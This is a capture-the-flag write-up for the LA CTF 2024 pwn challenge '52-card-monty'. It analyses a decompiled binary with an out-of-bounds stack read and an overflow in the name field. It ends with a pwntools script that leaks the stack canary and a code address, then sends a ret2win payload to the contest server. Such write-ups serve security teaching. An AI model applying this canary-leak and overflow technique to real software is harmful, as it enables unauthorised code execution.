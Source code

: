 ```yaml
---
title: 52-card-monty
type: writeup
date:  2024-02-25T20:00:00+02:00
description: Writeup for 52-card-monty [LA CTF 2024]
author: PineBel
tags:
- pwn
draft: false
---
```


## Challenge Description:

3-card monty was too easy for me so I made 52-card monty! Can you show me the lady?

## Intuition 

We are given an ELF 64-bit binary with the following protections:
```bash
└─$ checksec --file=monty 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   82 Symbols        No    0               2               monty

```


We can see that it has all the protections, after opening it in Ghidra we can see that there is also a win() function that prints the flag, so it's a ret2win challenge. The vulnerability is that we can leak some addresses from the stack. The array from which we can read cards has 52 elements but our input let us read 0x52 elements from the array. 

```C
void game(void)

{
  long lVar1;
  long *plVar2;
  long in_FS_OFFSET;
  int local_1d8;
  int local_1d4;
  long local_1d0;
  long local_1c8 [52];
  char local_28 [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  plVar2 = local_1c8;
  for (lVar1 = 0x34; lVar1 != 0; lVar1 = lVar1 + -1) {
    *plVar2 = 0;
    plVar2 = plVar2 + 1;
  }
  for (local_1d4 = 0; local_1d4 < 0x34; local_1d4 = local_1d4 + 1) {
    lVar1 = lrand();
    local_1c8[local_1d4] = lVar1;
  }
  local_1d8 = rand();
  local_1d8 = local_1d8 % 0x34;
  local_1c8[local_1d8] = 0x423a35c7;
  puts("==============================");
  printf("index of your first peek? ");
  __isoc99_scanf(&DAT_0010206a,&local_1d8);
  local_1d0 = local_1c8[local_1d8 % 0x52];
  local_1c8[local_1d8 % 0x52] = local_1c8[0];
  local_1c8[0] = local_1d0;
  printf("Peek 1: %lu\n",local_1d0);
  puts("==============================");
  printf("index of your second peek? ");
  __isoc99_scanf(&DAT_0010206a,&local_1d8);
  local_1d0 = local_1c8[local_1d8 % 0x52];
  local_1c8[local_1d8 % 0x52] = local_1c8[0];
  local_1c8[0] = local_1d0;
  printf("Peek 2: %lu\n",local_1d0);
  puts("==============================");
  printf("Show me the lady! ");
  __isoc99_scanf(&DAT_0010206a,&local_1d8);
  puts("==============================");
  if (local_1c8[local_1d8] == 0x423a35c7) {
    puts("You win!");
  }
  else {
    puts("Just missed. Try again.");
  }
  puts("==============================");
  puts("Add your name to the leaderboard.");
  getchar();
  printf("Name: ");
  fgets(local_28,0x34,stdin);
  puts("==============================");
  printf("Thanks for playing, %s!\n",local_28);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

We can leak two addresses from the stack with the peeks the binary allows us to do, then we are asked for the index where the lady card is but this isn't important for our exploit. After this we are asked for our name.

### Solution

To solve this challenge with the two peeks I leak the main address and the canary and then I send the payload when we are asked for our name. 

```py
from pwn import *


def get_peek_address(output):
    print(output)
    temp = output[9:-1]
    temp = temp.decode()
    return hex(int(temp))


target = process("./monty")
target = remote("chall.lac.tf",31132)

target.sendlineafter(b"peek?",b"57") # index for main  is 57
main = hex(int(get_peek_address(target.recvline()),16) - 0x30)
print(main)

target.sendlineafter(b"peek?",b"55") # index for canary is 55 
canary = get_peek_address(target.recvline())
print(canary)

target.sendlineafter(b"lady!",b"1")
print(target.recvline())

# gdb.attach(target)
# pause()

flag = int(main,16) - 0x415 # distance from main to flag
print(hex(flag))
payload = b"A"*24 + p64(int(canary,16)) + p64(flag) + p64(flag)
target.sendlineafter(b"Name:",payload)
#print(target.recvline())

target.interactive()

```